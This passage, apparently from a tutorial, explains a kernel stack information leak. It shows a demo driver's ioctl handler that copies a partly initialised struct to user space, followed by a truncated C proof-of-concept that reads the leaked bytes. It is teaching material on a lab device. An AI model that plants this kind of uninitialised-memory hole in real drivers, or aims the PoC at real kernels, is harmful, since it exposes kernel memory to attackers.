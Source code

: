 ```C
			.id = 0x1122334455667788,
		};
		if (copy_to_user((void __user *)arg, &info, sizeof(info)) != 0)
			return -EFAULT;
		return 0;
	}

	pr_err("error: wrong ioctl command: %#x\n", cmd);
	return -EINVAL;
}
```

We have defined a struct with 3 members but have only initialized 2 of its members. 

And now let's see our PoC.

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>


#define u8 unsigned char
#define u64 unsigned long long

struct vuln_info {
	u8 version;
	u64 id;
	u8 _reserved;
};

#define VULN_GET_INFO _IOR('v', 2, struct vuln_info)


int main(int argc, char **argv)
{
	int fd = open("/dev/vuln_stack_leak", O_RDWR);
	if (fd < 0) {
		perror("open error");
		return -1;
	}

	struct vuln_info info = { 0 };

	if (ioctl(fd, VULN_GET_INFO, &info) < 0)
		perror("ioctl");

	struct vuln_info expected;
	memset(&expected, 0, sizeof(expected));
	expected = (struct vuln_info) {
		.version = 1,
		.id = 0x1122334455667788,
	};

	int i;
	u64 *info_ptr = (u64*)&info;
	u64 *exp_ptr = (u64*)&expected;
	for (i=0; i<sizeof(info)/sizeof(u64); i++) {
		if (info_ptr[i] != exp_ptr[i]) {
			printf("value at offset %ld differs: %#llx vs %#llx\n", i*sizeof(u64), info_ptr[i], exp_ptr[i]);
		}
```